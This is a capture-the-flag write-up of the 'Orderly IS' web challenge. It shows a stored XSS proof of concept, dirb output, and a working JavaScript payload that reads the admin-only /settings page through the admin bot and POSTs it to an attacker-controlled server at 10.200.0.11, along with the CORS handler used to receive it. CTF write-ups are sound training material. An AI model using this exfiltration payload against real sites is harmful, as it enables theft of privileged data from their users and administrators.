 # Orderly IS

Hi, packet inspector,

do you want to order something? Use our Orderly information system, it is intuitive, fast, reliable and secure! At least
that's what we claim in the TV ad. In last few hours it began to act weirdly, but its administrator is on vacation away
from civilization (and connectivity).

You will have to break into the [Orderly information system](http://orderly.mysterious-delivery.tcc:23000/) and check
its configuration.

May the Packet be with you!

---

I enjoyed this challenge. This is the web

![](portal.png)

We can post any data and the data is rendered back. I tried a few payload and
discovered [XSS vulnerability](https://portswigger.net/web-security/cross-site-scripting).

PoC:

```
<script>alert(1)</script>
```

In the meantime, I ran `nmap` and `dirb`. The latter discovered an interesting endpoint:

```
$ dirb http://orderly.mysterious-delivery.tcc:23000/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Oct 25 20:21:24 2022
URL_BASE: http://orderly.mysterious-delivery.tcc:23000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://orderly.mysterious-delivery.tcc:23000/ ----
==> DIRECTORY: http://orderly.mysterious-delivery.tcc:23000/javascript/
+ http://orderly.mysterious-delivery.tcc:23000/login (CODE:200|SIZE:1846)
+ http://orderly.mysterious-delivery.tcc:23000/logout (CODE:302|SIZE:199)
+ http://orderly.mysterious-delivery.tcc:23000/server-status (CODE:403|SIZE:299)
+ http://orderly.mysterious-delivery.tcc:23000/settings (CODE:302|SIZE:199)

---- Entering directory: http://orderly.mysterious-delivery.tcc:23000/javascript/ ----
==> DIRECTORY: http://orderly.mysterious-delivery.tcc:23000/javascript/jquery/

---- Entering directory: http://orderly.mysterious-delivery.tcc:23000/javascript/jquery/ ----
+ http://orderly.mysterious-delivery.tcc:23000/javascript/jquery/jquery (CODE:200|SIZE:287600)
```

This is interesting: `+ http://orderly.mysterious-delivery.tcc:23000/settings (CODE:302|SIZE:199)`

I have already seen a bit similar challenge so the next logical step was to verify that XSS payload is triggered
by the "admin" (a robot). Luckily, after solving [XML Prettifier](../02-xml-prettifier/README.md), I already knew I can use
my computer to hosts payloads.

The second PoC (don't forget about the firewall):

1. Get your VPN IP (`10.200.0.11`)
2. Configure/disable firewall
3. Run HTTP server on `10.200.0.11` (I'm using Python `http.server`)

Payload:

```
<img src="http://10.200.0.11:8000/test"/>
```

HTTP server log:

```
::ffff:10.200.0.11 - - [25/Oct/2022 20:27:05] code 404, message File not found
::ffff:10.200.0.11 - - [25/Oct/2022 20:27:05] "GET /test HTTP/1.1" 404 -
::ffff:10.99.0.5 - - [25/Oct/2022 20:27:05] code 404, message File not found
::ffff:10.99.0.5 - - [25/Oct/2022 20:27:05] "GET /test HTTP/1.1" 404 -
```

Bingo, there's hit from `10.99.0.5`!

Now, let's make a real exploit. My first idea was to steel the session cookie and use it to impersonate the admin but
the cookie is `httpOnly` so it wouldn't work.

The right idea is also quite simple: First, send HTTP request to read `/settings`, then send post the response of the first
request back to my localhost:

Also, don't forget about [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS). To make it work, I added
the following handler for `OPTIONS` method:

```python
def do_OPTIONS(self):
    self.send_response(HTTPStatus.OK)
    self.send_header("Access-Control-Allow-Origin", "*")
    self.send_header("Access-Control-Allow-Headers", "*")
    self.end_headers()
```

Those HTTP headers make CORS possible.

Run my customized [HTTP server](../../../../src/main/python/catch22/OrderlyIS/http-server.py) and send the exploit:

```html

<script>
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "/settings", false);
    xhr.send(null);
    var response = xhr.responseText;

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "http://10.200.0.11:8000/", false);
    xhr.send(JSON.stringify({
        response
    }));
</script>
```

The POST request with flag is indeed logged:

```
POST /

Headers:
Host: 10.200.0.11:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.99.0.131:23000/
Content-Type: text/plain;charset=UTF-8
Content-Length: 1639
Origin: http://10.99.0.131:23000
Connection: keep-alive

Body:
{"response":"\n\n<!doctype html>\n<html lang=\"en\">\n  \n<head>\n\t<meta charset=\"utf-8\">\n\t<meta name=\"viewport\" content=\"width=device-width, initial-scale=1, shrink-to-fit=no\">\n\t<link rel=\"stylesheet\" href=\"/static/bootstrap.min.css\">\n\t<title>Settings (adminuser)</title>\n\n\t<link rel=\"stylesheet\" href=\"/static/style.css\">\n</head>\n\n<body>\n\t<nav class=\"navbar navbar-expand navbar-dark bg-dark fixed-top py-0\">\n\t\t<div class=\"container\">\n\t\t\t<a class=\"navbar-brand\" href=\"/\">Orderly</a>\n\t\t\t<button class=\"navbar-toggler\" type=\"button\" data-toggle=\"collapse\" data-target=\"#navbarResponsive\" aria-controls=\"navbarResponsive\" aria-expanded=\"false\" aria-label=\"Toggle navigation\"><span class=\"navbar-toggler-icon\"></span></button>\n\t\t\t<div class=\"collapse navbar-collapse\" id=\"navbarResponsive\">\n\t\t\t\t<ul class=\"navbar-nav ml-auto\">\n\t\t\t\t\t<li class=\"nav-item\"><a class=\"nav-link\" href=\"/order/add\">Add</a></li>\n\t\t\t\t\t<!-- begin only admins -->\n\t\t\t\t\n\t\t\t\t\t<!-- end only admins -->\n\t\t\t\t\n\t\t\t\t\t<li class=\"nav-item\"><a class=\"nav-link\" href=\"/order/process\">Process</a></li>\n\t\t\t\t\t<li class=\"nav-item\"><a class=\"nav-link\" href=\"/logout\">Logout</a></li>\n\t\t\t\t\n\t\t\t\t</ul>\n\t\t\t</div>\n\t\t</div>\n\t</nav>\n\n        <div class=\"container\">\n\t\t<div>\n\t\t\n\t\t\n\t\t\n\t\t</div>\n\n\t\t\n<h1>Settings</h1>\n<span id=\"flag\">FLAG{9QVE-0miw-qnwm-ER9m}\n</span>\n\n        </div>\n\n\t<script src=\"/static/jquery.min.js\"></script>\n\t<script src=\"/static/bootstrap.min.js\"></script>\n</body>\n\n</html>"}

10.99.0.3 - - [25/Oct/2022 20:42:34] "POST / HTTP/1.1" 200 -

```

For convenience, here is the copied out source for [Settings page](settings.html).

The flag is `FLAG{9QVE-0miw-qnwm-ER9m}`